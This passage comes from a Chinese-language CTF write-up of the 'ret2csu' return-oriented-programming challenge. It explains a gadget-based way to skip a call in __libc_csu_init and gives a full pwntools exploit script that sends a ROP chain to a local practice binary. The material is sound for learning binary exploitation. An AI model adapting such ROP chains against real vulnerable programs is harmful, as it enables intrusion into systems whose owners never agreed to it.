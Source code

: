 其中最值得我们关注的就是最后一个片段，它将rsp减8又加8，相当于没有任何变化，而前面的片段均对寄存器有或多或少的影响。于是我们使用最后一个代码片段试试看。

要能够成功使用代码片段，还需要在内存空间中找到一个保存着这个代码段地址的地方，因为前面已经说过，call的地址是取值拿到的，所以不能直接将地址放在寄存器中。我们在IDA中尝试搜索，没想到还真的搜索到了：

![](6.png)

我们只需要将r12赋值为0x4003b0，就能够完美跳过这个call并毫发无损地返回，也就有了修正第一个参数的机会。注意：此时我们会多pop掉7个参数，因此要在栈中加7个无效数。

payload:

```python
from pwn import *

io = process('./ret2csu')
elf = ELF('./ret2csu')
lib = ELF('./libret2csu.so')

ROP_1 = 0x40069a
ROP_2 = 0x400680
rdi = 0x4006a3
call = 0x400689

payload = cyclic(40)
payload += p64(rdi) + p64(0xdeadbeefdeadbeef)		# pop the first argument
payload += p64(ROP_1)
payload += p64(0) + p64(1) + p64(0x4003B0) + p64(0xdeadbeefdeadbeef) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)
payload += p64(ROP_2)
payload += p64(0) * 7
payload += p64(rdi) + p64(0xdeadbeefdeadbeef) 
payload += p64(elf.plt['ret2win'])

io.sendlineafter(b'> ', payload)
io.interactive()
```

![](7.png)
由此可见，在做题的过程中，转换思路很重要。一条指令可以有用，也可以无用。可能需要精心构造进入，也可能需要精心构造绕过。全方位思考，整合程序中的所有资源为己所用，方能在pwn的世界纵横捭阖，左右逢源。要学的东西，还有很多......

